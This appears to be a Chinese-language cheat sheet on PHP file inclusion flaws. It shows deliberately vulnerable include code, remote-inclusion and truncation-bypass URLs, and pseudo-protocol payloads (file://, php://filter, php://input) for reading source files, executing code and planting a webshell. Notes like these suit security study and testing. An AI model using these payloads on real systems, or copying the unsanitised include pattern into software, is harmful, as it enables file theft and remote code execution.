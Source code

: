 **PHP文件包含函数**

* include()
* include_once()
* require()
* require_once()

```php+HTML
# php源码
# 无限制文件包含
<?php
$file = $_GET["f"];
include $file;
?>
# 直接上传文件令其包含
# 只能上传html文件
<?php
$file = $_GET["f"];
include $file.".html";
?>
# 远程文件包含
?filename=http://ip/include.txt
```

**截断方法**

* %00截断

  * 条件
    * php需小于5.3

    * magic_quotes_gpc = off

* win下目录长度最长为256字节，超出部分会被丢弃

  * ?filename=index.txt/./.(win下重复256次)
  * ?filename=index.txt....(win下重复256次)

* ?filename=http://ip/include.txt?

* ?filename=http://ip/include.txt%23 （%23=#）

* ?filename=http://ip/include.txt%20 （空格=%20）

**伪协议**

* file:// 读取文件
  
* http://192.168.58.1/test/inc.php?f=file://D:\phpstudy_pro\WWW\test\index.txt
  
* php://filter

  * http://192.168.58.1/test/inc.php?f=php://filter/convert.base64-encode/resource=index.txt读取后再base64解密

* php://input 任意代码执行

  * file_get_contents() 读取post数据

  * 写入木马
